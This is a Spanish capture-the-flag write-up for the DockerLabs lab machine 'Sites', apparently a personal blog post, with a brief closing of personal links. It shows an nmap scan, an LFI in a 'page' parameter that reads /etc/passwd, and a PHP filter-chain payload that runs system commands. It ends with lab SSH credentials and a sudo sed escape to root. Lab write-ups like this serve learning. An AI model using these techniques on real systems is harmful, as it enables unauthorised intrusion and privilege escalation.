 Hoy haremos la maquina Sites de [Dockerlabs](https://dockerlabs.es)

![autor](/home/macimo/Documents/Dockerlabs/maquina-sites/imagenes/autor.png)

Autor: [ElPingüinoDeMario](https://www.youtube.com/@ElPinguinoDeMario)

Dificultad: Medio

Vulnerabilidad: LFI(Local File Inclusion)

Herramientas a utilizar: Nmap, Hydra

​						Opcional: Gobuster

Scripts necesarios: [Php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator)

# INTRUSIÓN 

Primero comenzamos haciendo un escaneo de nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 172.17.0.2
```

```bash
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times may be slower.
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-05 19:29 -03
Initiating ARP Ping Scan at 19:29
Scanning 172.17.0.2 [1 port]
Completed ARP Ping Scan at 19:29, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 19:29
Scanning 172.17.0.2 [65535 ports]
Discovered open port 22/tcp on 172.17.0.2
Discovered open port 80/tcp on 172.17.0.2
Completed SYN Stealth Scan at 19:29, 1.69s elapsed (65535 total ports)
Nmap scan report for 172.17.0.2
Host is up, received arp-response (0.000012s latency).
Scanned at 2024-08-05 19:29:42 -03 for 2s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 64
80/tcp open  http    syn-ack ttl 64
MAC Address: 02:42:AC:11:00:02 (Unknown)

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
           Raw packets sent: 65536 (2.884MB) | Rcvd: 65536 (2.621MB)

```

No se encuentra nada interesante así que continuaremos entrando desde el navegador para ver que encontramos.

#### PUERTO 80:

![puerto80](/home/macimo/Documents/Dockerlabs/maquina-sites/imagenes/puerto80.png)

Luego de estar leyendo la página veo que trata como de un "foro" el cual explica un poco de la vulnerabilidad LFI. Revisé el código fuente y no encontré nada pero por probar antes de usar feroxbuster/gobuster se me ocurrió entrar a un archivo que nombraba en la "publicación", el cual se llama "vulnerable.php". Resulta que si es un archivo y ya no nos hace falta usar feroxbuster/gobuster ; nos dice lo siguiente:

![vulnerablePHP](/home/macimo/Documents/Dockerlabs/maquina-sites/imagenes/vulnerablePHP.png)

Nos dice que le demos un "page" o "username", viendo que la extensión del archivo es '.php' podemos probar poner '?page=' o '?username=' e introducir algo, si en "username" ponemos cualquier cosa nos da la bienvenida pero en "page" se encuentra lo interesante ya que podremos hacer un LFI, y leer archivos del sistema. Primero probé poner "../../../../../../../../../etc/passwd" como algo típico pero quedaba en blanco, así que probé con "/etc/passwd" y ya me mostró el archivo, por lo que confirmamos que trata de un LFI.

Intento conseguir el "id_rsa" de root o de alguno de los usuarios por probar ya que antes vimos que el puerto 22 de ssh estaba abierto, pero no funciona; así que se me ocurre utilizar los [wrapper](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/File%20Inclusion/README.md) de php. Al probarlos vemos que funcionan por lo que significa que podemos ejecutar comandos ayudándonos con el script [Php_filter_chain_generator](https://github.com/synacktiv/php_filter_chain_generator) simplemente poniendo 

```bash
python3 php_filter_chain_generator.py --chain "<?php system('comando que queramos'); ?>"
```

Estuve un rato probando en subir un archivo y enviarme una reverse shell pero finalmente la solución fue mucho mas simple ya que se encontraba un archivo llamado "archivitotraviesito" el cual tenia lo siguiente:
![archivitotraviesito](/home/macimo/Documents/Dockerlabs/maquina-sites/imagenes/archivitotraviesito.png)

Por lo que ya tenemos la contraseña del ssh(el mensaje no nos dice el usuario pero como nosotros vimos el "/etc/passwd" y sabemos que hay uno llamado chocolate, pero para confirmar podríamos usar hydra o medusa dependiendo de los gustos). Nos conectamos por ssh con usuario "chocolate" y contraseña "lapasswordmasmolonadelacity" y listo, estamos dentro.

# ESCALADA DE PRIVILEGIOS

Ya estando dentro podemos ejecutar "sudo -l" para ver si tenemos suerte y podemos ejecutar algun binario como root. Por suerte encontramos lo siguiente:

```bash
chocolate@2e528d8225be:~$ sudo -l
Matching Defaults entries for chocolate on 2e528d8225be:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User chocolate may run the following commands on 2e528d8225be:
    (ALL) NOPASSWD: /usr/bin/sed
chocolate@2e528d8225be:~$ 

```

luego de buscar en [GTFOBins](https://gtfobins.github.io/) vemos que podemos realizar una escalada mediante ese binario usando 

```bash
sudo sed -n '1e exec sh 1>&0' /etc/hosts
```

ejecutamos

```bash
bash
```

y listo. SOMOS ROOT

![root](/home/macimo/Documents/Dockerlabs/maquina-sites/imagenes/root.png)

Opinión¿?:

Buena maquina para aprender un poco de LFI y muy entretenida











Por si te interesa:

[IG](https://instagram.com/macim0_)









Agradecimientos:

[messi](https://instagram.com/leomessi)